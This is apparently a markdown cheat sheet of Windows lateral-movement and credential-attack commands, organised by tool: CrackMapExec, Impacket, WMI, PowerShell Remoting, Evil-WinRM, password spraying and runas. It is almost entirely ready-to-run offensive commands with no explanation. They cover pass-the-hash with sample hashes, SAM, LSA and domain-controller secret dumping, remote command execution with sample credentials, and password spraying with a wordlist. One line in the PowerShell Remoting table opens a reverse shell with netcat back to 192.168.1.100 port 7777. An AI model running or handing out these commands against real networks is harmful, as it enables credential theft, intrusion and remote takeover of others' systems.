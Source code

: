 ### Crackmapexec
```
PsExec64.exe \\192.168.1.104 -u administrator -p forever cmd 
psexec \\192.168.122.66 -u Administrator -p 123456Ww ipconfig
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t ipconfig 
PsExec64.exe \\ninja.corp cmd 
crackmapexec 192.168.100.1/24 
crackmapexec cme-hosts.txt --shares 
cme-hosts.txt -u username.txt -p password.txt --shares 
crackmapexec 192.168.100.10 -u Administrator -p 'Passw0rd!' -x "net users" 
crackmapexec smb 192.168.100.1/24 -u Administrator -p 'Passw0rd!' -x "net users" 
crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee  -x "hostname" 
crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee  -x "hostname" 
crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee --sam            
crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee --lsa            
pth-rpcclient -U WORKGROUP/Administrator%aad3b435b51404eeaad3b435b51404ee //192.168.1.25 


```
### Impacket
```
psexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig 
wmiexec.py Resilient-Ninja:123456@192.168.200.1 ipconfig 
python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee Administrator@192.168.100.10 #with hash 
python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee -just-dc acmebank.loca/Administrator@192.168.100.10 

```

### Windows Management Instrumentation

```
wmic /node:"wkstn-4945" /user:"cyberbotic.io\n.lamb" /password:"F3rrari" process call create "powershell -enc [...snip...]"
WMIGrunt wkstn-4945 PowerShell cyberbotic.io\n.lamb F3rrari
WMIGrunt wkstn-4945 PowerShell

```
  ### PowerShell Remoting
 ```
ImpersonateUser CYBER\n.lamb
MakeToken n.lamb cyberbotic.io F3rrari
PowerShell Invoke-Command -ComputerName wkstn-4945 -ScriptBlock { hostname; whoami }
PowerShell $pass=ConvertTo-SecureString "F3rrari" -AsPlainText -Force; $cred=New-Object System.Management.Automation.PSCredential("cyberbotic.io\n.lamb", $pass); Invoke-Command -ComputerName wkstn-4945 -ScriptBlock { hostname; whoami } -Credential $cred
```




| PowerShell Remoting |
| ------------------- |
|$Username = 'ninja.corp\MeMe' #powershell variable |
|$Password = '123456789aA'|
|$pass= ConvertTo-SecureString -AsPlainText $Password -Force #powershell variable |
|$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass #powershell variable |
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {hostname}|
|Invoke-Command -ComputerName ninja.corp -Credential $Cred  -ScriptBlock {cmd.exe /c nc.exe -v 192.168.1.100 7777 -e cmd.exe}|





### Evil-WinRM
 
```
proxychains evil-winrm -u n.glover -H REDACTED -i 10.10.120.1
```

 ### Password Spraying Attack 
```

crackmapexec smb 192.168.1.1  -d ninja.corp -u MeME -P /usr/share/wordlists/rockyou.txt
smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' 
crackmapexec smb 192.168.1.1 -u MeMe -H NTHASH 
crackmapexec smb 192.168.1.1 -u '' -p '' #NULL Sessions
spray.sh -smb 192.168.1.1 users.txt /usr/share/wordlists/rockyou.txt  1 35 ninja.corp
spray.sh -owa 192.168.1.1 users.txt  /usr/share/wordlists/rockyou.txt   1 35 Request.body #OWA
spray.sh -ciso 192.168.1.1 usernames.txt /usr/share/wordlists/rockyou.txt 1 35 #CISCO Web VPN
python atomizer.py owa contoso.com 'Fall2018' emails.txt
```
### Runas
```
runas /netonly /user:nyameeeain "C:\Windows\System32\calc.exe"
runas /netonly /user:nyameeeain powershell
runas /netonly /user:nyameeeain "C:\Program Files\HeidiSQL\heidisql.exe"
runas /netonly /user:insomnia\nyameeeain "C:\Windows\System32\calc.exe"
```

